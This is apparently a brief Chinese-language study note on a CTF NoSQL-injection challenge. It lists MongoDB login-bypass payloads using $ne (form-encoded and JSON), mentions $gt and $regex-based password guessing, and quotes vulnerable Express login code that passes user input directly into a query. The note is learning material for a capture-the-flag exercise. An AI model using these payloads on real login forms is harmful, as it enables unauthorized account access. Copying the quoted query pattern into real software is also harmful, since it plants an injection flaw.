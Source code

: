 因為還沒學 mongoDB 所以先紀錄一下漏洞，以後再回來補 </br>

1.</br>
Content-Type: application/x-www-form-urlencoded</br>
username[$ne]=&password[$ne]=</br>

這是一個方法，但對這題沒用</br>
因為 username 和 password 是空白的  ( username[$ne] 不等於 username ) </br>

2.</br>
Content-Type: application/json</br>
{ "username" : { "$ne" : "" }, "password" : { "$ne" : "" } }</br>

$ne 代表 not equal，因此只要 username != "" 就會回傳 true</br>
另外還有 $gt (greater than) $gte</br>

3.</br>
利用 $regex 猜密碼</br>
因為猜對(格式正確) 會回傳 bad 猜錯會顯示 Wrong username or password </br>



```
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));
...
router.post('/login', verifyJwt, function (req, res) {
    // monk instance
    var db = req.db;
    var user = req.body.username;
    var pass = req.body.password;
    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }
    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }
        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

[參考 writeup1](https://blog.posix.cf/angstromctf-no-sequel-1-2/)</br>
[參考 writeup2](https://samcalamos.com.au/2019/04/25/angstrom-2019-no-sequels-2-writeup/)</br>

